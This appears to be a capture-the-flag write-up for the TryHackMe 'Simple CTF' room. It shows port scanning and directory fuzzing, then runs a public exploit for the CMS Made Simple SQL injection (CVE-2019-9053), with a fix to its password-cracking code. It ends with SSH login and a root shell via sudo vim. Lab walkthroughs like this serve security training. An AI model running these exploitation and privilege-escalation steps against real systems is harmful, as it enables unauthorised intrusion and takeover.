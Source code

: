 ```bash
# PLATFORM          . THM
# CTF NAME          . Simple CTF
# DESCRIPTION       . Beginner level ctf
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/easyctf
```

```bash
sudo nmap -sSVC -T5 10.10.215.71 -p- -oN simplectf
```

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- from the nmap scan, we already see 3 interesting things:

- ssh was moved from the default port `22` to `2222`, in an attempt to hide it from public eye.

- `FTP` is allowing anonymous login 
- `robots.txt` has 2 disallowed entries.

```robots.txt
Disallow: /openemr-5_0_1_3
```

- This made me think that maybe OpenEMR is installed on the webserver, and by looking around I found that version 5.0.1.3 is vulnerable. 

- However, I wanted to see if there's something else hidden around so I've done some fuzzing

```bash
ffuf -u http://10.10.215.71/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 100 -e .php
```

```bash
simple                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- This revealed a new page - running CMS Made Simple v2.2.8

- After some googling, I've found on Exploit-DB that all CMS Made Simple versions <= 2.2.10 are vulnerable to unauthenticated SQL injection - [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)

- I've downloaded the python script and made it work with python3 ... jokes on me :) 

```bash
python3 46635.py -u http://10.10.215.71/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt
```

- After running for a while, the script decided that it can't crack the password.

```
if hashlib.md5(str(salt) + line).hexdigest() == password:

TypeError: Strings must be encoded before hashing
```

So I've changed the line to 

```python
hashlib.md5((salt + line).encode()).hexdigest()
```

and gave it another try.

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: {redacted}
```

- Okay, it seems we got some credentials: mitch:{redacted}

- I tried connecting to `FTP` first, but we can't.

```bash
530 This FTP server is anonymous only.
```

**NOTE**: Connecting with `anonymous:anonymous` doesn't reveal anything.

- It seems that the credentials are working for `SSH`.

```bash
ssh mitch@10.10.215.71 -p 2222

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

- First flag is located at `/home/mitch/user.txt`

- After finding the flag, I've started checking for privilege escalation vectors.

- A simple `sudo -l` reveals that we can use `vim` as `sudo`. This is very powerful, as we can spawn a `shell` under `root`.

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

```bash
sudo vim -c ':!/bin/bash'
```

- The last flag is at `/root/root.txt`.




